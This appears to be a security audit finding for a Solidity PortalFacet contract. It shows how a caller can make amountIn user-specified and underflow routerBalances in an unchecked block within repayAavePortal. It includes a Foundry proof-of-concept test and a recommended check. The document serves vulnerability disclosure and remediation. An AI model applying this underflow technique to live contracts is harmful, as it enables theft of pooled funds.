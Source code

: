 By setting `_local` to the same value as the adopted asset, you trigger the following edge case:

```sol
    address adopted = s.canonicalToAdopted[id];
    if (adopted == _asset) {
      return (true, _amount, _asset);
    }
```

So the `amountIn` value returned by `swapFromLocalAssetIfNeededForExactOut()` is the `totalAmount` value that was passed to it. And `totalAmount == _backingAmount + _feeAmount`.

Meaning the `amountIn` value is user-specified for this edge case. Finally, we reach the following line:

```sol
    unchecked {
      s.routerBalances[msg.sender][_local] -= amountIn;
    }
```

`amountIn` (user-specified) is subtracted from the `routerBalances` in an `unchecked` block. Thus, the attacker is able to trigger an underflow and increase their balance arbitrarily high. The `repayAavePortal()` function only verifies that `routerBalance < _maxIn`.

Here's a test as PoC:

```sol
// PortalFacet.t.sol

  function test_PortalFacet_underflow() public {
    s.routerPermissionInfo.approvedForPortalRouters[router] = true;

    uint backing = 2 ether;
    uint fee = 10000;
    uint init = 1 ether;

    s.routerBalances[router][_local] = init;
    s.portalDebt[_id] = backing;
    s.portalFeeDebt[_id] = fee;

    vm.mockCall(s.aavePool, abi.encodeWithSelector(IAavePool.backUnbacked.selector), abi.encode(true));
    vm.prank(router);
    this.repayAavePortal(_local, backing, fee, init - 0.5 ether, _id);

    // balance > init => underflow
    require(s.routerBalances[router][_local] > init);
  }
```

### Recommended Mitigation Steps

After the call to `swapFromLocalAssetIfNeededForExactOut()` you should add the following check:

```sol
if (_local == adopted) {
  require(routerBalance >= amountIn);
}
```

